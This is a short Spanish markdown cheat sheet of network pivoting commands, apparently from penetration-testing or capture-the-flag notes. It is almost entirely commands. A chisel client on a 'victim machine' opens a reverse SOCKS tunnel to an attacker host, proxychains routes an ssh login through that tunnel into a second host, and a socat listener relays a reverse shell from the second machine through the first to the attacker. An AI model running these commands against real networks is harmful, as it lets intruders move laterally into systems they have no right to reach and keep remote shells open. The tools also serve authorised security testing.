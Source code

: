 # Comandos interesantes de PICOTING



## CHISEL
cliente , en la maquina victima 1
<pre>
./chisel client 192.168.168.224:1234 R:socks
</pre>

Servidor en maquina atacante. 
<pre>
./chisel server --reverse -p 1234
</pre>

Como se va por socks hay que habilitar socks5 en /etc/proxychains.conf
<pre>
socks5  127.0.0.1 1080
</pre>
Ahora desde la máquina atacante entramos en la maquina 2 con proxychains
<pre>
proxychains ssh aeolus@10.10.10.128
</pre>


## SOCAT
Si lanzamos una reverse shell de la maquina 2 a la maquina 1 podemos redirigir con sockat el trafico de la maquina 1 a la atacante
<pre>
socat TCP-LISTEN:4646,fork TCP:192.168.168.224:4646
</pre>
